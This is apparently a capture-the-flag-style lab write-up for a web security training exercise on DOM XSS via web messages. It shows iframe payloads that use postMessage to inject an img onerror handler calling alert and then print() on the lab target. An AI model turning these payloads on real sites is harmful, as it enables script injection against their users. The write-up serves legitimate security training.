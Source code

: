 # Lab: DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called. 

# Step 1 Find web message

On the main page of the script, I find a web message that is going to be used for future adds

![image](https://user-images.githubusercontent.com/83407557/211449086-6918e804-6d67-4985-a295-cfcb4af0b844.png)


# Step 2 Create a malicious iframe on a server I control

I can post a web message from a server I control using an iframe:

```html
<iframe src="https://0abf009603fae835c1ab68ef00910092.web-security-academy.net/" onload="this.contentWindow.postMessage('HACKED!','*')">
```

![image](https://user-images.githubusercontent.com/83407557/211449265-81a046eb-98ed-488c-b80e-b2ffeb5c8b31.png)

Viewing the iframe, I see that I can manipulate data on the target website:

![image](https://user-images.githubusercontent.com/83407557/211449442-0591dac9-6899-4fed-945b-784405aab464.png)


# Step 3 Have iframe execute javascript

In addition to having a string injected into the page, I can also inject javascript code. To call an print function I edit the iframe:

```html
<iframe src="https://0abf009603fae835c1ab68ef00910092.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src onerror=alert(document.domain)>','*')">
```
![image](https://user-images.githubusercontent.com/83407557/211451548-ca057e24-2e37-4dfa-ac5d-473db74488b6.png)

![image](https://user-images.githubusercontent.com/83407557/211451597-8f042539-e07a-44c6-ad01-aba324981b24.png)

# Step 4 modify xss to call print function

```html
<iframe src="https://0abf009603fae835c1ab68ef00910092.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src onerror=print()>','*')">
```
![image](https://user-images.githubusercontent.com/83407557/211451840-2ce1d414-9011-448b-8da4-24559651064d.png)

Having a working POC, I send it to the victim:

![image](https://user-images.githubusercontent.com/83407557/211451936-2b3ac3ff-b43f-4719-9cbb-73ae9794c81e.png)

which solves the lab

![image](https://user-images.githubusercontent.com/83407557/211451971-6dd23399-3b0a-40e6-bfa7-3fd4323a82e2.png)

